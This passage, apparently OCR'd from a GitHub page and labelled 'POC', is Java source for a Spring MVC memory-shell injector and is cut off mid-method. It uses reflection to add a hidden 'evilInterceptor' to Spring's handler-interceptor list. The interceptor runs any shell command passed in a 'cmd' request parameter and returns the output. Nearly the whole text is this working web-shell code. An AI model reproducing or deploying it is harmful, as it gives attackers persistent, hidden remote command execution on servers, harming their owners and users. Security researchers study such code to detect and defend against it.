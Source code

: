 

POC：

```java
package org.example.springmvc;

import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

public class InjectInterceptor implements HandlerInterceptor {
    static {
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        Field field = null;
        try {
            field = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        }
        field.setAccessible(true);
        List<HandlerInterceptor> adaptInterceptors = null;
        try {
            adaptInterceptors = (List<HandlerInterceptor>) field.get(mappingHandlerMapping);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }
        InjectInterceptor evilInterceptor = new InjectInterceptor();
        adaptInterceptors.add(evilInterceptor);
    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        if (request.getParameter("cmd") != null) {
            try{
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
                response.getWriter().close();
            } catch (Exception e) {
                e.printStackTrace();
            }
```